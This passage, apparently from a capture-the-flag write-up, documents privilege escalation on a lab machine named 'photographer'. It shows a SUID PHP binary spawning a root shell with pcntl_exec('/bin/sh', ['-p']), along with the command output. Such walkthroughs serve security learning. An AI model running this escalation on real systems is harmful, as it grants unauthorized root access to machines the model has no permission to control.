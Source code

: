 ```bash
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.32-1+ubuntu16.04.1+deb.sury.org+1, Copyright (c) 1999-2018, by Zend Technologies
```
Looks like it is.

### 6. Escalate to root
Because PHP is SUID, it can be leveraged to go straight to root by executing /bin/sh.
```bash
www-data@photographer:/usr/bin$ ./php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
whoami
root
```